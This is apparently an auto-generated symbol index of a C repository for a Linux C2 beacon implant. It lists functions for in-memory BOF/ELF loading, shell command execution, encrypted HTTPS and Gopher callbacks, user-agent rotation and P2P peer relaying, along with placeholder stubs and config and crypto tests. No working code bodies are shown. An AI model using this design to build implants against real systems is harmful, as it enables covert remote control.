- `run_bof_and_capture` (line 1211) `char *run_bof_and_capture(unsigned char *elf_data, uint32_t filesize, char *args, int arglen,
   ...` - *=== RUN BOF AND CAPTURE ===*
- `main` (line 1257) `int main()` - *=== MAIN ===*

**Macros:**
- `_GNU_SOURCE` (line 1) `#define _GNU_SOURCE`
- `C2_URL` (line 34) `#define C2_URL`
- `CLIENT_ID` (line 35) `#define CLIENT_ID`
- `MALEABLE` (line 36) `#define MALEABLE`
- `USER_AGENTS_COUNT` (line 37) `#define USER_AGENTS_COUNT`

**Structs:**
- `MemoryStruct` (line 53) - *=== ESTRUCTURAS ===*
- `Trampoline` (line 61) - *=== TRAMPOLINES ===*
- `SymbolResolver` (line 70)
- `TrampolineCache` (line 77) - *=== CACHE DE TRAMPOLINES ===*

#### `beacon_p2p.c`
**Path:** `legacy/beacon_p2p.c`

**Functions:**
- `BeaconDataParse` (line 93) `void BeaconDataParse(datap *parser, char *buffer, int size)` - *======================================================================= FUNCIONES DE LA API DE BEACON (para BOFs) =======================================================================*
- `BeaconDataPtr` (line 100) `char *BeaconDataPtr(datap *parser, int size)`
- `BeaconDataInt` (line 110) `int BeaconDataInt(datap *parser)`
- `BeaconDataShort` (line 118) `short BeaconDataShort(datap *parser)`
- `BeaconDataLength` (line 126) `int BeaconDataLength(datap *parser)`
- `BeaconDataExtract` (line 131) `char *BeaconDataExtract(datap *parser, int *size)`
- `BeaconPrintf` (line 142) `void BeaconPrintf(int type, const char *fmt, ...)`
- `BeaconOutput` (line 159) `void BeaconOutput(int type, const char *data, int len)`
- `__attribute__` (line 250) `static void __attribute__((noinline)) call_bof_isolated(bof_func_t func, char *args,
            ...`
- `create_trampoline` (line 278) `static void *create_trampoline(void *target)`
- `cleanup_trampolines` (line 309) `static void cleanup_trampolines(void)`
- `get_or_create_trampoline` (line 323) `static void *get_or_create_trampoline(void *target)`
- `page_align` (line 350) `static size_t page_align(size_t size)`
- `RunELF` (line 358) `int RunELF(const char *functionname, unsigned char *elf_data, uint32_t filesize,
           unsig...`
- `WriteMemoryCallback` (line 683) `static size_t WriteMemoryCallback(void *contents, size_t size, size_t nmemb, void *userp)`
- `https_request` (line 707) `char *https_request(const char *url, const char *method, const char *post_data)`
- `base64_encode` (line 763) `char *base64_encode(const unsigned char *input, int len)`
- `base64_decode` (line 780) `unsigned char *base64_decode(const char *input, int *len)`
- `aes256_cfb_encrypt` (line 802) `unsigned char *aes256_cfb_encrypt(const unsigned char *key, const unsigned char *iv,
            ...`
- `aes256_cfb_decrypt` (line 832) `unsigned char *aes256_cfb_decrypt(const unsigned char *key, const unsigned char *iv,
            ...`
- `exec_cmd` (line 866) `char *exec_cmd(const char *cmd, int *out_len)` - *======================================================================= UTILIDADES: ejecutar comandos shell, obtener IPs, etc. =======================================================================*
- `get_local_ips` (line 891) `char *get_local_ips()`
- `download_bof` (line 925) `unsigned char *download_bof(const char *url, size_t *out_size)`
- `run_bof_and_capture` (line 939) `char *run_bof_and_capture(unsigned char *elf_data, uint32_t filesize, char *args, int arglen,
   ...`
- `add_peer` (line 965) `void add_peer(struct in_addr ip, int port, const char *id)` - *======================================================================= FUNCIONES P2P =======================================================================*
- `peer_discovery_thread` (line 992) `void *peer_discovery_thread(void *arg)`
- `handle_peer_connection` (line 1032) `void *handle_peer_connection(void *arg)`
- `peer_server_thread` (line 1130) `void *peer_server_thread(void *arg)`
- `send_to_peer` (line 1153) `char *send_to_peer(peer_t *peer, const char *data, int *out_len)`
- `send_to_c2_or_peer` (line 1197) `char *send_to_c2_or_peer(const char *url, const char *method, const char *data, int *out_len)`
- `execute_generic_command` (line 1231) `char *execute_generic_command(const char *cmd, int *out_len)` - *======================================================================= EJECUTOR DE COMANDOS (unificado para shell y BOF) =======================================================================*
- `main` (line 1276) `int main()` - *======================================================================= MAIN =======================================================================*

**Macros:**
- `_GNU_SOURCE` (line 1) `#define _GNU_SOURCE`
- `C2_URL` (line 37) `#define C2_URL`
- `CLIENT_ID` (line 38) `#define CLIENT_ID`
- `MALEABLE` (line 39) `#define MALEABLE`
- `USER_AGENTS_COUNT` (line 40) `#define USER_AGENTS_COUNT`
- `PEER_DISCOVERY_PORT` (line 42) `#define PEER_DISCOVERY_PORT`
- `PEER_TCP_PORT` (line 43) `#define PEER_TCP_PORT`
- `PEER_MAGIC` (line 44) `#define PEER_MAGIC`
- `PEER_VERSION` (line 45) `#define PEER_VERSION`
- `BROADCAST_INTERVAL` (line 46) `#define BROADCAST_INTERVAL`
- `MAX_PEERS` (line 47) `#define MAX_PEERS`

**Structs:**
- `MemoryStruct` (line 676) - *======================================================================= FUNCIONES DE COMUNICACIÓN (HTTPS + BASE64 + AES) =======================================================================*
- `peer_t` (line 59) - *======================================================================= ESTRUCTURAS P2P =======================================================================*
- `p2p_header_t` (line 73)
- `Trampoline` (line 175) - *======================================================================= TRAMPOLINES Y RELOCACIÓN (RunELF) - SIN CAMBIOS =======================================================================*
- `SymbolResolver` (line 182)
- `TrampolineCache` (line 192)

#### `gopher_beacon.c`
**Path:** `legacy/gopher_beacon.c`

**Functions:**
- `__attribute__` (line 142) `static void __attribute__((noinline)) call_bof_isolated(bof_func_t func, char *args,
            ...`
- `BeaconPrintf` (line 193) `void BeaconPrintf(int type, const char *fmt, ...)` - *=== BEACON API ===*
- `BeaconOutput` (line 210) `void BeaconOutput(int type, const char *data, int len)`
- `create_trampoline` (line 224) `static void *create_trampoline(void *target)` - *=== CRATE TRAPOLINE ===*
- `cleanup_trampolines` (line 265) `static void cleanup_trampolines(void)` - *=== CLEAN TRAMPOLINE ===*
- `get_or_create_trampoline` (line 283) `static void *get_or_create_trampoline(void *target)`
- `WriteMemoryCallback` (line 321) `static size_t WriteMemoryCallback(void *contents, size_t size, size_t nmemb, void *userp)` - *=== CURL WRITE CALLBACK ===*
- `gopher_request` (line 339) `char *gopher_request(const char *host, int port, const char *selector, const char *method,
      ...` - *=== GOPHER REQUEST () ===*
- `base64_encode` (line 422) `char *base64_encode(const unsigned char *input, int len)` - *=== BASE64 ===*
- `base64_decode` (line 440) `unsigned char *base64_decode(const char *input, int *len)`
- `aes256_cfb_encrypt` (line 466) `unsigned char *aes256_cfb_encrypt(const unsigned char *key, const unsigned char *iv,
            ...` - *=== AES CFB ===*
- `aes256_cfb_decrypt` (line 500) `unsigned char *aes256_cfb_decrypt(const unsigned char *key, const unsigned char *iv,
            ...`
- `exec_cmd` (line 536) `char *exec_cmd(const char *cmd, int *out_len)` - *=== EXEC CMD ===*
- `page_align` (line 573) `static size_t page_align(size_t size)` - *=== Función auxiliar: alinear al tamaño de página ===*
- `RunELF` (line 581) `int RunELF(const char *functionname, unsigned char *elf_data, uint32_t filesize,
           unsig...`
- `get_local_ips` (line 1080) `char *get_local_ips()` - *=== GET LOCAL IPs ===*
- `download_bof` (line 1115) `unsigned char *download_bof(const char *bof_selector, size_t *out_size)` - *=== DOWNLOAD BOF ===*
- `run_bof_and_capture` (line 1147) `char *run_bof_and_capture(unsigned char *elf_data, uint32_t filesize, char *args, int arglen,
   ...` - *=== RUN BOF AND CAPTURE ===*
- `main` (line 1193) `int main()` - *=== MAIN ===*

**Macros:**
- `_GNU_SOURCE` (line 1) `#define _GNU_SOURCE`
- `C2` (line 30) `#define C2`
- `CLIENT_ID` (line 31) `#define CLIENT_ID`
- `MALEABLE` (line 32) `#define MALEABLE`
- `USER_AGENTS_COUNT` (line 33) `#define USER_AGENTS_COUNT`

**Structs:**
- `MemoryStruct` (line 49) - *=== ESTRUCTURAS ===*
- `Trampoline` (line 57) - *=== TRAMPOLINES ===*
- `SymbolResolver` (line 66)
- `TrampolineCache` (line 73) - *=== CACHE DE TRAMPOLINES ===*

#### `v1_gopher_beacon.c`
**Path:** `legacy/v1_gopher_beacon.c`

**Functions:**
- `__attribute__` (line 142) `static void __attribute__((noinline)) call_bof_isolated(bof_func_t func, char *args,
            ...`
- `BeaconPrintf` (line 193) `void BeaconPrintf(int type, const char *fmt, ...)` - *=== BEACON API ===*
- `BeaconOutput` (line 210) `void BeaconOutput(int type, const char *data, int len)`
- `create_trampoline` (line 224) `static void *create_trampoline(void *target)` - *=== CRATE TRAPOLINE ===*
- `cleanup_trampolines` (line 265) `static void cleanup_trampolines(void)` - *=== CLEAN TRAMPOLINE ===*
- `get_or_create_trampoline` (line 283) `static void *get_or_create_trampoline(void *target)`
- `WriteMemoryCallback` (line 321) `static size_t WriteMemoryCallback(void *contents, size_t size, size_t nmemb, void *userp)` - *=== CURL WRITE CALLBACK ===*
- `gopher_request` (line 339) `char *gopher_request(const char *host, int port, const char *selector, const char *method,
      ...` - *=== GOPHER REQUEST () ===*
- `base64_encode` (line 422) `char *base64_encode(const unsigned char *input, int len)` - *=== BASE64 ===*
- `base64_decode` (line 440) `unsigned char *base64_decode(const char *input, int *len)`
- `aes256_cfb_encrypt` (line 466) `unsigned char *aes256_cfb_encrypt(const unsigned char *key, const unsigned char *iv,
            ...` - *=== AES CFB ===*
- `aes256_cfb_decrypt` (line 500) `unsigned char *aes256_cfb_decrypt(const unsigned char *key, const unsigned char *iv,
            ...`
- `exec_cmd` (line 536) `char *exec_cmd(const char *cmd, int *out_len)` - *=== EXEC CMD ===*
- `page_align` (line 573) `static size_t page_align(size_t size)` - *=== Función auxiliar: alinear al tamaño de página ===*
- `RunELF` (line 581) `int RunELF(const char *functionname, unsigned char *elf_data, uint32_t filesize,
           unsig...`
- `get_local_ips` (line 1080) `char *get_local_ips()` - *=== GET LOCAL IPs ===*
- `download_bof` (line 1115) `unsigned char *download_bof(const char *bof_selector, size_t *out_size)` - *=== DOWNLOAD BOF ===*
- `run_bof_and_capture` (line 1147) `char *run_bof_and_capture(unsigned char *elf_data, uint32_t filesize, char *args, int arglen,
   ...` - *=== RUN BOF AND CAPTURE ===*
- `main` (line 1193) `int main()` - *=== MAIN ===*

**Macros:**
- `_GNU_SOURCE` (line 1) `#define _GNU_SOURCE`
- `C2` (line 30) `#define C2`
- `CLIENT_ID` (line 31) `#define CLIENT_ID`
- `MALEABLE` (line 32) `#define MALEABLE`
- `USER_AGENTS_COUNT` (line 33) `#define USER_AGENTS_COUNT`

**Structs:**
- `MemoryStruct` (line 49) - *=== ESTRUCTURAS ===*
- `Trampoline` (line 57) - *=== TRAMPOLINES ===*
- `SymbolResolver` (line 66)
- `TrampolineCache` (line 73) - *=== CACHE DE TRAMPOLINES ===*

#### `async_i_o_for_beacon.c`
**Path:** `mutants/src/async_i_o_for_beacon.c`
**File Doc:** *Auto-generated implementation for contract: Async I/O for Beacon*

**Functions:**
- `async_i_o_for_beacon_process` (line 6) `bool async_i_o_for_beacon_process(void)`

#### `beacon_common.c_extraction.c`
**Path:** `mutants/src/beacon_common.c_extraction.c`
**File Doc:** *Auto-generated implementation for contract: beacon_common.c Extraction*

*No symbols extracted*

#### `beacon_heartbeat___health_endpoint.c`
**Path:** `mutants/src/beacon_heartbeat___health_endpoint.c`
**File Doc:** *Auto-generated implementation for contract: Beacon Heartbeat / Health Endpoint*

**Functions:**
- `beacon_heartbeat___health_endpoint_process` (line 6) `bool beacon_heartbeat___health_endpoint_process(void)`

#### `bof_api_versioning.c`
**Path:** `mutants/src/bof_api_versioning.c`
**File Doc:** *Auto-generated implementation for contract: BOF API Versioning*

**Functions:**
- `bof_api_versioning_process` (line 6) `bool bof_api_versioning_process(void)`

#### `bof_path_traversal_hardening.c`
**Path:** `mutants/src/bof_path_traversal_hardening.c`
**File Doc:** *Auto-generated implementation for contract: BOF Path Traversal Hardening*

**Functions:**
- `bof_path_traversal_hardening_process` (line 6) `bool bof_path_traversal_hardening_process(void)`

#### `bof_streaming_(large_outputs).c`
**Path:** `mutants/src/bof_streaming_(large_outputs).c`
**File Doc:** *Auto-generated implementation for contract: BOF Streaming (Large Outputs)*

**Functions:**
- `bof_streaming_` (line 6) `bool bof_streaming_(large_outputs)_process(void)`

#### `c2_rest_api.c`
**Path:** `mutants/src/c2_rest_api.c`
**File Doc:** *Auto-generated implementation for contract: C2 REST API*

**Functions:**
- `c2_rest_api_process` (line 6) `bool c2_rest_api_process(void)`

#### `certificate_pinning___tofu.c`
**Path:** `mutants/src/certificate_pinning___tofu.c`
**File Doc:** *Auto-generated implementation for contract: Certificate Pinning / TOFU*

**Functions:**
- `certificate_pinning___tofu_process` (line 6) `bool certificate_pinning___tofu_process(void)`

#### `command_execution_via_execve.c`
**Path:** `mutants/src/command_execution_via_execve.c`
**File Doc:** *Auto-generated implementation for contract: Command Execution via execve*

**Functions:**
- `command_execution_via_execve_process` (line 6) `bool command_execution_via_execve_process(void)`

#### `containerized_build_+_sbom.c`
**Path:** `mutants/src/containerized_build_+_sbom.c`
**File Doc:** *Auto-generated implementation for contract: Containerized Build + SBOM*

*No symbols extracted*

#### `hkdf_key_derivation.c`
**Path:** `mutants/src/hkdf_key_derivation.c`
**File Doc:** *Auto-generated implementation for contract: HKDF Key Derivation*

**Functions:**
- `hkdf_key_derivation_process` (line 6) `bool hkdf_key_derivation_process(void)`

#### `iv_generation_with_entropy_verification.c`
**Path:** `mutants/src/iv_generation_with_entropy_verification.c`
**File Doc:** *Auto-generated implementation for contract: IV Generation with Entropy Verification*

**Functions:**
- `iv_generation_with_entropy_verification_process` (line 6) `bool iv_generation_with_entropy_verification_process(void)`

#### `mutation_testing_integration.c`
**Path:** `mutants/src/mutation_testing_integration.c`
**File Doc:** *Auto-generated implementation for contract: Mutation Testing Integration*

**Functions:**
- `mutation_testing_integration_process` (line 6) `bool mutation_testing_integration_process(void)`

#### `pre-commit_+_ci_hardening.c`
**Path:** `mutants/src/pre-commit_+_ci_hardening.c`
**File Doc:** *Auto-generated implementation for contract: Pre-commit + CI Hardening*

*No symbols extracted*

#### `replay_protection.c`
**Path:** `mutants/src/replay_protection.c`
**File Doc:** *Auto-generated implementation for contract: Replay Protection*

**Functions:**
- `replay_protection_process` (line 6) `bool replay_protection_process(void)`

#### `socks5___http_proxy_support.c`
**Path:** `mutants/src/socks5___http_proxy_support.c`
**File Doc:** *Auto-generated implementation for contract: SOCKS5 / HTTP Proxy Support*

**Functions:**
- `socks5___http_proxy_support_process` (line 6) `bool socks5___http_proxy_support_process(void)`

#### `structured_jsonl_logging.c`
**Path:** `mutants/src/structured_jsonl_logging.c`
**File Doc:** *Auto-generated implementation for contract: Structured JSONL Logging*

**Functions:**
- `structured_jsonl_logging_process` (line 6) `bool structured_jsonl_logging_process(void)`

#### `tls_client_certificate_authentication.c`
**Path:** `mutants/src/tls_client_certificate_authentication.c`
**File Doc:** *Auto-generated implementation for contract: TLS Client Certificate Authentication*

**Functions:**
- `tls_client_certificate_authentication_process` (line 6) `bool tls_client_certificate_authentication_process(void)`

#### `unified_config_schema.c`
**Path:** `mutants/src/unified_config_schema.c`
**File Doc:** *Auto-generated implementation for contract: Unified Config Schema*

**Functions:**
- `unified_config_schema_process` (line 6) `bool unified_config_schema_process(void)`

#### `config_harness.c`
**Path:** `mutants/tests/config_harness.c`

**Functions:**
- `main` (line 22) `int main(void)`

#### `crypto_harness.c`
**Path:** `mutants/tests/crypto_harness.c`

**Functions:**
- `hex_to_bytes` (line 12) `static int hex_to_bytes(const char *hex, unsigned char *out, size_t outlen)`
- `main` (line 23) `int main(int argc, char **argv)`

#### `test_async_i_o_for_beacon_c.c`
**Path:** `mutants/tests/test_async_i_o_for_beacon_c.c`

**Functions:**
- `test_async_i_o_for_beacon_placeholder` (line 14) `static void test_async_i_o_for_beacon_placeholder(void **state)`
- `main` (line 21) `int main(void)`

#### `test_beacon_common.c_extraction_c.c`
**Path:** `mutants/tests/test_beacon_common.c_extraction_c.c`

**Functions:**
- `main` (line 21) `int main(void)`

#### `test_beacon_heartbeat___health_endpoint_c.c`
**Path:** `mutants/tests/test_beacon_heartbeat___health_endpoint_c.c`

**Functions:**
- `test_beacon_heartbeat___health_endpoint_placeholder` (line 14) `static void test_beacon_heartbeat___health_endpoint_placeholder(void **state)`
- `main` (line 21) `int main(void)`

#### `test_bof_api_versioning_c.c`
**Path:** `mutants/tests/test_bof_api_versioning_c.c`

**Functions:**
- `test_bof_api_versioning_placeholder` (line 14) `static void test_bof_api_versioning_placeholder(void **state)`
- `main` (line 21) `int main(void)`

#### `test_bof_path_traversal_hardening_c.c`
**Path:** `mutants/tests/test_bof_path_traversal_hardening_c.c`

**Functions:**
- `test_bof_path_traversal_hardening_placeholder` (line 14) `static void test_bof_path_traversal_hardening_placeholder(void **state)`
- `main` (line 21) `int main(void)`

#### `test_bof_streaming_(large_outputs)_c.c`
**Path:** `mutants/tests/test_bof_streaming_(large_outputs)_c.c`

**Functions:**
- `test_bof_streaming_` (line 14) `static void test_bof_streaming_(large_outputs)_placeholder(void **state)`
- `main` (line 21) `int main(void)`

#### `test_c2_rest_api_c.c`
**Path:** `mutants/tests/test_c2_rest_api_c.c`

**Functions:**
- `test_c2_rest_api_placeholder` (line 14) `static void test_c2_rest_api_placeholder(void **state)`
- `main` (line 21) `int main(void)`

#### `test_certificate_pinning___tofu_c.c`
**Path:** `mutants/tests/test_certificate_pinning___tofu_c.c`

**Functions:**
- `test_certificate_pinning___tofu_placeholder` (line 14) `static void test_certificate_pinning___tofu_placeholder(void **state)`
- `main` (line 21) `int main(void)`

#### `test_command_execution_via_execve_c.c`
**Path:** `mutants/tests/test_command_execution_via_execve_c.c`

**Functions:**
- `test_command_execution_via_execve_placeholder` (line 14) `static void test_command_execution_via_execve_placeholder(void **state)`
- `main` (line 21) `int main(void)`

#### `test_containerized_build_+_sbom_c.c`
**Path:** `mutants/tests/test_containerized_build_+_sbom_c.c`

**Functions:**
- `main` (line 21) `int main(void)`

#### `test_hkdf_key_derivation_c.c`
**Path:** `mutants/tests/test_hkdf_key_derivation_c.c`

**Functions:**
- `test_hkdf_key_derivation_placeholder` (line 14) `static void test_hkdf_key_derivation_placeholder(void **state)`
- `main` (line 21) `int main(void)`

#### `test_iv_generation_with_entropy_verification_c.c`
**Path:** `mutants/tests/test_iv_generation_with_entropy_verification_c.c`

**Functions:**
- `test_iv_generation_with_entropy_verification_placeholder` (line 14) `static void test_iv_generation_with_entropy_verification_placeholder(void **state)`
- `main` (line 21) `int main(void)`

#### `test_mutation_testing_integration_c.c`
**Path:** `mutants/tests/test_mutation_testing_integration_c.c`

**Functions:**
- `test_mutation_testing_integration_placeholder` (line 14) `static void test_mutation_testing_integration_placeholder(void **state)`
- `main` (line 21) `int main(void)`

#### `test_pre-commit_+_ci_hardening_c.c`
**Path:** `mutants/tests/test_pre-commit_+_ci_hardening_c.c`

**Functions:**
- `main` (line 21) `int main(void)`

#### `test_replay_protection_c.c`
**Path:** `mutants/tests/test_replay_protection_c.c`

**Functions:**
- `test_replay_protection_placeholder` (line 14) `static void test_replay_protection_placeholder(void **state)`
- `main` (line 21) `int main(void)`

#### `test_socks5___http_proxy_support_c.c`
**Path:** `mutants/tests/test_socks5___http_proxy_support_c.c`

**Functions:**
- `test_socks5___http_proxy_support_placeholder` (line 14) `static void test_socks5___http_proxy_support_placeholder(void **state)`
- `main` (line 21) `int main(void)`

#### `test_structured_jsonl_logging_c.c`
**Path:** `mutants/tests/test_structured_jsonl_logging_c.c`

**Functions:**
- `test_structured_jsonl_logging_placeholder` (line 14) `static void test_structured_jsonl_logging_placeholder(void **state)`
- `main` (line 21) `int main(void)`

#### `test_tls_client_certificate_authentication_c.c`
**Path:** `mutants/tests/test_tls_client_certificate_authentication_c.c`

**Functions:**
- `test_tls_client_certificate_authentication_placeholder` (line 14) `static void test_tls_client_certificate_authentication_placeholder(void **state)`
- `main` (line 21) `int main(void)`

#### `test_unified_config_schema_c.c`
**Path:** `mutants/tests/test_unified_config_schema_c.c`

**Functions:**
- `test_unified_config_schema_placeholder` (line 14) `static void test_unified_config_schema_placeholder(void **state)`
- `main` (line 21) `int main(void)`

#### `async_i_o_for_beacon.c`
**Path:** `src/async_i_o_for_beacon.c`
**File Doc:** *Auto-generated implementation for contract: Async I/O for Beacon*

**Functions:**
- `async_i_o_for_beacon_process` (line 6) `bool async_i_o_for_beacon_process(void)`

#### `beacon_common.c_extraction.c`
**Path:** `src/beacon_common.c_extraction.c`
**File Doc:** *Auto-generated implementation for contract: beacon_common.c Extraction*

*No symbols extracted*

#### `beacon_heartbeat___health_endpoint.c`
**Path:** `src/beacon_heartbeat___health_endpoint.c`
**File Doc:** *Auto-generated implementation for contract: Beacon Heartbeat / Health Endpoint*

**Functions:**
- `beacon_heartbeat___health_endpoint_process` (line 6) `bool beacon_heartbeat___health_endpoint_process(void)`

#### `bof_api_versioning.c`
**Path:** `src/bof_api_versioning.c`
**File Doc:** *Auto-generated implementation for contract: BOF API Versioning*

**Functions:**
- `bof_api_versioning_process` (line 6) `bool bof_api_versioning_process(void)`

#### `bof_path_traversal_hardening.c`
**Path:** `src/bof_path_traversal_hardening.c`
**File Doc:** *Auto-generated implementation for contract: BOF Path Traversal Hardening*

**Functions:**
- `bof_path_traversal_hardening_process` (line 6) `bool bof_path_traversal_hardening_process(void)`

#### `bof_streaming_(large_outputs).c`
**Path:** `src/bof_streaming_(large_outputs).c`
**File Doc:** *Auto-generated implementation for contract: BOF Streaming (Large Outputs)*

**Functions:**
- `bof_streaming_` (line 6) `bool bof_streaming_(large_outputs)_process(void)`

#### `c2_rest_api.c`
**Path:** `src/c2_rest_api.c`
**File Doc:** *Auto-generated implementation for contract: C2 REST API*

**Functions:**
- `c2_rest_api_process` (line 6) `bool c2_rest_api_process(void)`

#### `certificate_pinning___tofu.c`
**Path:** `src/certificate_pinning___tofu.c`
**File Doc:** *Auto-generated implementation for contract: Certificate Pinning / TOFU*

**Functions:**
- `certificate_pinning___tofu_process` (line 6) `bool certificate_pinning___tofu_process(void)`

#### `command_execution_via_execve.c`
**Path:** `src/command_execution_via_execve.c`
**File Doc:** *Auto-generated implementation for contract: Command Execution via execve*

**Functions:**
- `command_execution_via_execve_process` (line 6) `bool command_execution_via_execve_process(void)`

#### `containerized_build_+_sbom.c`
**Path:** `src/containerized_build_+_sbom.c`
**File Doc:** *Auto-generated implementation for contract: Containerized Build + SBOM*

*No symbols extracted*

#### `hkdf_key_derivation.c`
**Path:** `src/hkdf_key_derivation.c`
**File Doc:** *Auto-generated implementation for contract: HKDF Key Derivation*

**Functions:**
- `hkdf_key_derivation_process` (line 6) `bool hkdf_key_derivation_process(void)`

#### `iv_generation_with_entropy_verification.c`
**Path:** `src/iv_generation_with_entropy_verification.c`
**File Doc:** *Auto-generated implementation for contract: IV Generation with Entropy Verification*

**Functions:**
- `iv_generation_with_entropy_verification_process` (line 6) `bool iv_generation_with_entropy_verification_process(void)`

#### `mutation_testing_integration.c`
**Path:** `src/mutation_testing_integration.c`
**File Doc:** *Auto-generated implementation for contract: Mutation Testing Integration*

**Functions:**
- `mutation_testing_integration_process` (line 6) `bool mutation_testing_integration_process(void)`

#### `pre-commit_+_ci_hardening.c`
**Path:** `src/pre-commit_+_ci_hardening.c`
**File Doc:** *Auto-generated implementation for contract: Pre-commit + CI Hardening*

*No symbols extracted*

#### `replay_protection.c`
**Path:** `src/replay_protection.c`
**File Doc:** *Auto-generated implementation for contract: Replay Protection*

**Functions:**
- `replay_protection_process` (line 6) `bool replay_protection_process(void)`

#### `socks5___http_proxy_support.c`
**Path:** `src/socks5___http_proxy_support.c`
**File Doc:** *Auto-generated implementation for contract: SOCKS5 / HTTP Proxy Support*

**Functions:**
- `socks5___http_proxy_support_process` (line 6) `bool socks5___http_proxy_support_process(void)`

#### `structured_jsonl_logging.c`
**Path:** `src/structured_jsonl_logging.c`
**File Doc:** *Auto-generated implementation for contract: Structured JSONL Logging*

**Functions:**
- `structured_jsonl_logging_process` (line 6) `bool structured_jsonl_logging_process(void)`

#### `tls_client_certificate_authentication.c`
**Path:** `src/tls_client_certificate_authentication.c`
**File Doc:** *Auto-generated implementation for contract: TLS Client Certificate Authentication*

**Functions:**
- `tls_client_certificate_authentication_process` (line 6) `bool tls_client_certificate_authentication_process(void)`

#### `unified_config_schema.c`
**Path:** `src/unified_config_schema.c`
**File Doc:** *Auto-generated implementation for contract: Unified Config Schema*

**Functions:**
- `unified_config_schema_process` (line 6) `bool unified_config_schema_process(void)`

#### `config_harness.c`
**Path:** `tests/config_harness.c`

**Functions:**
- `main` (line 24) `int main(void)`

#### `crypto_harness.c`
**Path:** `tests/crypto_harness.c`

**Functions:**
- `hex_to_bytes` (line 12) `static int hex_to_bytes(const char *hex, unsigned char *out, size_t outlen)`
- `main` (line 27) `int main(int argc, char **argv)`

#### `test_certificate_pinning_c.c`
**Path:** `tests/test_certificate_pinning_c.c`

**Functions:**
- `test_cert_fingerprint_defaults_to_empty` (line 19) `static void test_cert_fingerprint_defaults_to_empty(void **state)` - *#include <stdarg.h> #include <stddef.h> #include <setjmp.h> #include <cmocka.h> #include <stdbool.h> #include <string.h> #include <stdlib.h> #include <stdio.h> #include <unistd.h> /* Include the config header #include "config.h" /* Test that cert_fingerprint_sha256 field exists and defaults to empty*
- `test_cert_fingerprint_loads_from_config` (line 29) `static void test_cert_fingerprint_loads_from_config(void **state)` - */* Include the config header #include "config.h" /* Test that cert_fingerprint_sha256 field exists and defaults to empty static void test_cert_fingerprint_defaults_to_empty(void **state) { (void)state; bsb_config_t cfg; char err[512]; int r = bsb_config_load("config/config.example.json", &cfg, err, sizeof(err)); assert_int_equal(r, 0); assert_string_equal(cfg.network.cert_fingerprint_sha256, ""); } /* Test that cert_fingerprint_sha256 can be loaded from config*
- `test_cert_fingerprint_invalid_length_fails` (line 55) `static void test_cert_fingerprint_invalid_length_fails(void **state)` - *fputs(config_content, f); fclose(f); bsb_config_t cfg; char err[512]; int r = bsb_config_load("/tmp/test_cert_fp.json", &cfg, err, sizeof(err)); assert_int_equal(r, 0); assert_string_equal(cfg.network.cert_fingerprint_sha256, "a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6e7f8a9b0c1d2e3f4a5b6c7d8e9f0a1b2"); unlink("/tmp/test_cert_fp.json"); } /* Test that invalid fingerprint (wrong length) fails*
- `test_network_struct_has_fingerprint_field` (line 82) `static void test_network_struct_has_fingerprint_field(void **state)` - *The C parser doesn't validate fingerprint length strictly, it just reads the string. Validation is done at runtime when libcurl uses it. So this should succeed in parsing. * The test verifies the parser doesn't crash. assert_int_equal(r, 0); assert_string_equal(cfg.network.cert_fingerprint_sha256, "abc"); unlink("/tmp/test_cert_fp_bad.json"); } /* Test that network struct has cert_fingerprint_sha256 field*
- `main` (line 90) `int main(void)`

#### `test_hkdf_key_derivation_c.c`
**Path:** `tests/test_hkdf_key_derivation_c.c`

**Functions:**
- `test_master_key_hex_loads_from_config` (line 19) `static void test_master_key_hex_loads_from_config(void **state)` - *#include <stdarg.h> #include <stddef.h> #include <setjmp.h> #include <cmocka.h> #include <stdbool.h> #include <string.h> #include <stdlib.h> #include <stdio.h> #include <unistd.h> /* Include the config header #include "config.h" /* Test that master_key_hex field exists and can be loaded*
- `test_aes_key_hex_backward_compat` (line 55) `static void test_aes_key_hex_backward_compat(void **state)` - *"\xa1\xb2\xc3\xd4\xe5\xf6\xa7\xb8\xc9\xd0\xe1\xf2\xa3\xb4\xc5\xd6" "\xe7\xf8\xa9\xb0\xc1\xd2\xe3\xf4\xa5\xb6\xc7\xd8\xe9\xf0\xa1\xb2", BSB_AES_KEY_BYTES); /* Verify derived keys are non-zero and different uint8_t zeros[BSB_AES_KEY_BYTES] = {0}; assert_memory_not_equal(cfg.crypto.encryption_key, zeros, BSB_AES_KEY_BYTES); assert_memory_not_equal(cfg.crypto.hmac_key, zeros, BSB_AES_KEY_BYTES); assert_memory_not_equal(cfg.crypto.encryption_key, cfg.crypto.hmac_key, BSB_AES_KEY_BYTES); unlink("/tmp/test_master_key.json"); } /* Test that legacy aes_key_hex still works (backward compat)*
- `test_missing_both_keys_fails` (line 90) `static void test_missing_both_keys_fails(void **state)` - *"\xb1\xb2\xc3\xd4\xe5\xf6\xa7\xb8\xc9\xd0\xe1\xf2\xa3\xb4\xc5\xd6" "\xe7\xf8\xa9\xb0\xc1\xd2\xe3\xf4\xa5\xb6\xc7\xd8\xe9\xf0\xa1\xb2", BSB_AES_KEY_BYTES); /* Verify derived keys are non-zero and different uint8_t zeros[BSB_AES_KEY_BYTES] = {0}; assert_memory_not_equal(cfg.crypto.encryption_key, zeros, BSB_AES_KEY_BYTES); assert_memory_not_equal(cfg.crypto.hmac_key, zeros, BSB_AES_KEY_BYTES); assert_memory_not_equal(cfg.crypto.encryption_key, cfg.crypto.hmac_key, BSB_AES_KEY_BYTES); unlink("/tmp/test_aes_key.json"); } /* Test that missing both keys fails*
- `test_invalid_master_key_hex_length_fails` (line 115) `static void test_invalid_master_key_hex_length_fails(void **state)` - *assert_non_null(f); fputs(config_content, f); fclose(f); bsb_config_t cfg; char err[512]; int r = bsb_config_load("/tmp/test_no_keys.json", &cfg, err, sizeof(err)); assert_int_equal(r, -1); assert_string_equal(err, "crypto.master_key_hex or crypto.aes_key_hex missing or invalid"); unlink("/tmp/test_no_keys.json"); } /* Test that invalid master_key_hex length fails*
- `test_key_separation` (line 139) `static void test_key_separation(void **state)` - *assert_non_null(f); fputs(config_content, f); fclose(f); bsb_config_t cfg; char err[512]; int r = bsb_config_load("/tmp/test_bad_master_key.json", &cfg, err, sizeof(err)); assert_int_equal(r, -1); assert_true(strstr(err, "master_key_hex") != NULL); unlink("/tmp/test_bad_master_key.json"); } /* Test that encryption_key and hmac_key are different for same master key (key separation)*
